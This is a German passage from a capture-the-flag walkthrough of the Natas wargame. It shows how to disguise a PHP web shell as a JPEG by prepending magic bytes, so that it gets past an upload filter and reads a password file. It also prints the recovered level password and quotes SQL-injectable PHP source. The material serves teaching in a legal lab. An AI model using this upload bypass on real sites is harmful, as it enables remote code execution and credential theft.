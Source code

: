 Auf Wikipedia können wir eine [Liste mit Signatur für verschiedene Dateitypen](https://en.wikipedia.org/wiki/List_of_file_signatures) finden. Die Signatur für JPEGs ist **FF D8 FF DB**.

Hier gibt es auch wieder verschiedene Möglichkeiten, wie wir die Signatur an den Anfang unserer Datei einfügen können, sodass diese als JPEG erkannt wird.

1.

```shell
root@kali:~# echo -e "\xff\xd8\xff\xe0" > jpeg
root@kali:~# file jpeg
jpeg: JPEG image data
```

Dadurch haben wir nun die JPEG Signatur in der Datei **jpeg** gespeichert. Jetzt müssen wir nur noch unser PHP-Skript erstellen und die beiden Dateien zusammenführen.

```shell
root@kali:~# echo "<?php system(\"cat /etc/natas_webpass/natas14\"); ?>" > cutecat
root@kali:~# cat jpeg cutecat > cutecatjpg
root@kali:~# file cutecatjpg
cutecat2: JPEG image data
```

2. Wir können auch den Hexeditor dafür benutzen.

```shell
root@kali:~# hexeditor -b cutecat
```

Viermal **Strg + A** drücken um null-Bytes zu erstellen, **FF D8 FF DB** eingeben und mit **Strg + X** speichern.

[![hexeditor](https://imgur.com/l2oziBm.jpg)](https://imgur.com/l2oziBm)

```shell
root@kali:~# file cutecat
cutecat: JPEG image data
```

3. Wir laden unser Skript ganz normal hoch und fangen die Anfrage mit Burp ab. Wir kopieren dann die ASCII Kodierung der Signatur von Wikipedia und fügen diese vor dem Inhalt unserer Datei ein.

[![kopieren](https://imgur.com/gqLbyb1.jpg)](https://imgur.com/gqLbyb1)

[![einfügen bei burp](https://imgur.com/EItixfp.jpg)](https://imgur.com/EItixfp)

Natürlich dürfen wir nicht vergessen, wie im vorherigen Level, dafür zu sorgen, dass unsere Datei wieder mit der Endung **.php** gespeichert wird. Wenn alles funktioniert hat, bekommen wir wieder das Passwort angezeigt, wenn wir dem Link zu unserer Datei folgen.

```shell
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```


## **Level 13 -> Level 14**

Sehen wir uns den Quelltext an:

```php
[...]
if(array_key_exists("username", $_REQUEST)) 
  { 
  $link = mysql_connect('localhost', 'natas14', '<censored>'); 
  mysql_select_db('natas14', $link); 
  $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
  if(array_key_exists("debug", $_GET)) 
  { 
    echo "Executing query: $query<br>"; 
  } 
  if(mysql_num_rows(mysql_query($query, $link)) > 0) 
```